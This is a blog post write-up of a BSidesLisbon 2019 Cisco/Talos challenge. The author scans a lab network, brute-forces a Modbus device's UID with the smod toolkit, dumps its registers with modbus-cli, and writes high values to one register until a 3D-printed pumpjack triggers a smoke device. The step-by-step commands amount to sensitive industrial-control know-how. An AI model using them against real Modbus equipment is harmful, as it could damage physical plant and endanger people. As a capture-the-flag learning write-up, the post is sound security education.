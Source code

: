 ```yaml
---
layout: post
title:  "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
thumbnail: /images/bsideslx19/final.png
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


BSides is the biggest security dedicated event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some *sidequests* ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):
1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: *By default, the protocol uses Port `502` as local port in the Modbus server*[^2]. Thus we are probably faced with something that speaks *Modbus* protocol.

With a little of search, you can find a lot of *Modbus* protocol clients in the wild, as well as some *offensive* toolkits. 

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it. 

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and *all* the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an *offensive* mindset like the previous tool, it allowed us to read, write and **dump** the memory of a *Modbus* device. Using it, we were able to read random parts of the memory, *e.g.*, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just *dump* everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml 
---
:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:
- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
-- show more --
{% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to *pwn* it. 

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, *maybe*.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, *higher*:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino! 

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with *Modbus*, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart. 

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [*snort*](https://www.snort.org/). And *pwning* IoT is the best kind of *pwn*.


[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
